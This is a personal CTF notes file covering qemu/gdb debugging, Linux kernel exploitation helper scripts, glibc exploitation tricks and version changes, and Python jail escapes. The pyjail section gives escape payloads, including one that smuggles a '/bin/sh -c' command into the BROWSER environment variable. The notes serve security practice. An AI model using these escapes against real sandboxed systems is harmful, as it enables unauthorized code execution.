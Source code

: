 # CTF Notes
## Introduction
These are my private notes that I used to keep to myself but I figured there is some in my opinion cool stuff worth sharing there. I use them all the time myself!
## Running non-native binaries with Qemu
Run:
```
qemu-aarch64-static -g 2345 -L optional_library_path ./a.out
```
...and after this we can connect with gdb-multiarch through:
```
pwndbg> target remote 0.0.0.0:2345
```
However it can be super wonky. `Ctrl-c` to stop execution doesn't work, but we can instead send the sigint signal to the qemu process and then it stops execution after a `continue`. It's still buggy though, for example when we disconnect and connect GDB again after a continue, then sending sigint instead of stopping the execution, terminates the process. It's a common problem there's a 12 years old bug report: https://gdb.sourceware.narkive.com/Z1LCkr20/remote-qemu-ctrl-c-does-not-work .
Also plugins like pwndbg and gef might appear buggy cuz qemu might not provide vmmap info to GDB: https://lore.kernel.org/all/20220221030910.3203063-1-dominik.b.czarnota@gmail.com/ .

## Copying libc and ld from a Docker Container
```bash
docker run --rm -ti -v "$PWD":/host ubuntu bash # to get an ubuntu container with a mounted path to copy things out
ldd /bin/ls # to see where the libc is or whatever (in this case libc is in /lib/x86_64-linux-gnu)
cp /lib/x86_64-linux-gnu/libc.so.6 /host
```

## Linux kernel exploitation
In case a challenge doesn't provide helper scripts there are some templates based on https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/ :
- for compressing the initramfs directory
```bash
#!/bin/sh

# try to move the exploit automatically to initramfs
gcc -o exploit -static $1
mv ./exploit ./initramfs

# compress the initramfs dir
cd initramfs
find . \
| cpio -ov --format=newc \
| gzip -v1 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```
- for decompressing initramfs.cpio.gz
```bash
#!/bin/sh

mkdir initramfs
cd initramfs
cp ../initramfs.cpio.gz .
gunzip ./initramfs.cpio.gz
cpio -idm < ./initramfs.cpio
rm initramfs.cpio
```
- for decompressing the compressed kernel image (usually called vmlinuz) use: https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux
- for running the kernel vm with an exposed GDB port
```bash
#!/bin/sh

qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -gdb tcp::1234 \
    -no-reboot \
    -append "console=ttyS0 kaslr kpti=1 quiet panic=1"
```
## Obscure tricks
- There's the `_dl_make_stack_executable` function in glibc's ld. I've never seen this used in an actual exploit but seems cool to know about nonetheless.
- `mmap` returns addresses placed close to libc (check out `house of muney` for more info).
- The read and write syscalls do not complain about being fed an invalid memory address and simply return an error. Might be useful for finding writeable memory without having a leak.
- Theres a magic race condition in one `one_gadget` (the gadget is actually in exec_comm and to find it you have to use one_gadget with `-l 1` argument). It can return a shell even though the constraints aren't met.
```c
0x10dbca posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, r9)
constraints:
  [rsp+0x70] == NULL
  [r9] == NULL || r9 == NULL
  [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0
 ```

## Important versions of things
- glibc-2.24 - Added check for `FILE`s vtable address.
- glibc-2.26 - Moved the `FILE`s vtable to a non-writable memory.
- glibc-2.29 - Moved the `FILE`s vtable back to a writable area.
- glibc-2.34 - Removed ret2csu.
- glibc-2.34 - `malloc` hooks removed from the API.

## Pyjails
```python
(__builtins__:=__import__('code'))==(lambda:interact())()

# from https://hackmd.io/@crazyman/H1s0b1Hii
__import__('antigravity',setattr(__import__('os'),'environ',dict(BROWSER='/bin/sh -c "/readflag giveflag" #%s')))
```
Tricks:
- Python translates non-ascii identifiers to ascii: https://peps.python.org/pep-3131/ . Might be useful to avoid some filters.
